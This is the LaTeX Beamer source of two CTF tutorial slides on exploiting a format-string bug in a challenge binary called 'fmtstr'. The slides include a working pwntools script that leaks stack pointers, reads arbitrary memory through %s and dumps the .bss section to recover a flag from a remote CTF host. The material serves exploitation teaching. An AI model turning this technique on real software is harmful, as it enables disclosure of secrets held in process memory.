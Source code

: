 \documentclass{beamer}
\begin{document}
\begin{frame}[fragile]
    \frametitle{fmtstr, 3. flag}

    \begin{lstlisting}[style=customc]
// OMG! Have you seen my .bss section?
flag3_ptr = getenv("FLAG3");
if(flag3_ptr){
    strncpy(flag3, flag3_ptr, sizeof(flag3));
    memset(flag3_ptr, 0, strlen(flag3_ptr));
}
    \end{lstlisting}
    
    \pause

    Idea: read memory and follow pointer multiple times

    \pause
    Note that:
    \begin{lstlisting}[style=customconsole, basicstyle=\tiny]
$ echo "AAAAAAAA-%19\$p" | ./fmtstr 
AAAAAAAA-0x4141414141414141
    \end{lstlisting}
    so we can place pointer on the stack, and dereference it with \%s.
\end{frame}
\begin{frame}[fragile]
    \frametitle{fmtstr, 3. flag, continued}

    \begin{lstlisting}[style=customc]
from pwn import *
r = remote("ctf.pwnies.dk", 31337)
# leak some pointer from the stack
r.send("%p,"*33)
ptr = int(r.clean().split(",")[32], 16)
entrypoint_ptr = ptr + 0xb0 + 0x90 + 8

@MemLeak
def leak(addr):
    r.send("START%21$sSTOP".ljust(16) + p64(addr))
    r.recvuntil("START")
    return r.recvuntil("STOP", drop=True) + "\x00"

# locate the fmtstr program in memory
entrypoint = leak.q(entrypoint_ptr)
elfheader = entrypoint & ~0xfff # align down to page boundry
#dump to file, analyse with readelf
#write("elfheader", leak.n(elfheader, 1024))
#magic numbers found with readelf
bss = elfheader + 0x200dd8 + 0x290
#flag should be around here somewhere
flag = leak.n(bss, 128)
log.info("Flag: \"%s\"", flag.strip("\x00"))
    \end{lstlisting}
\end{frame}
\end{document}
